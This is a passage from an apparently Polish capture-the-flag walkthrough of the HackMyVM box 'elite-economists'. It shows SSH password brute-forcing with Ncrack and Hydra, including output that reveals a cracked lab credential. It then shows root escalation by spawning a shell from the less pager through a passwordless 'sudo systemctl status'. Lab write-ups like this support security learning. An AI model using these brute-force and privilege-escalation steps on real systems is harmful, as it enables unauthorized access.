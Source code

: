 ```bash

Rate: 8.43; Found: 0; About 38.64% done; ETC: 00:44 (0:04:05 remaining)
Stats: 0:02:44 elapsed; 0 services completed (1 total)
Rate: 7.42; Found: 0; About 41.56% done; ETC: 00:44 (0:03:52 remaining)
Discovered credentials on ssh://172.16.1.178:22 'joseph' 'wealthiest'
ssh://172.16.1.178:22 finished.

Discovered credentials for ssh on 172.16.1.178 22/tcp:
172.16.1.178 22/tcp ssh: 'joseph' '******'

Ncrack done: 1 service scanned in 362.97 seconds.
Probes sent: 2010 | timed-out: 0 | prematurely-closed: 1984

Ncrack finished.
```
## 05b. Hydra
```bash
hydra -v -L users.txt -P elite-economists.hmv.all ssh://elite-economists.hmv
```
```bash
hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 01:14:31

[STATUS] attack finished for 172.16.1.178 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 01:34:03

Discovered credentials for ssh on 172.16.1.178 22/tcp:
172.16.1.178 22/tcp ssh: 'joseph' '******'
```
Jak widzimy, **Ncrack** się uporał z tym w sześć minut i od razu zakończył, zaś **Hydrze** zajęło to dwadzieścia minut. Po złamaniu hasła dalej kontynuowała skanowanie. Pewnie jest opcja, żeby zakończyć skanowanie od razu po znalezieniu hasła, ale ja odpalałem wszystko z ustawień standardowych. Login i hasło jest jak się domyślacie - do **SSH**.
{: .text-justify}
# 06. root
Ostatni etap jest najprostszy, mimo, że jest dużo ślepych uliczek. Odpalamy:
```bash
sudo -l
```
i widzimy:
{: .text-justify}
```bash
Matching Defaults entries for joseph on elite-economists:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joseph may run the following commands on elite-economists:
    (ALL) NOPASSWD: /usr/bin/systemctl status
```
Czyli jesteśmy w domu. **Systemctl** korzysta z pagera **Less**, a w w tym można uruchomić dowolną komendę, w tym __!bash__.
{: .text-justify}
Więc zadziałajmy:
{: .text-justify}
```bash
sudo /usr/bin/systemctl status
```
```bash
● elite-economists
    State: running
     Jobs: 0 queued
   Failed: 0 units
```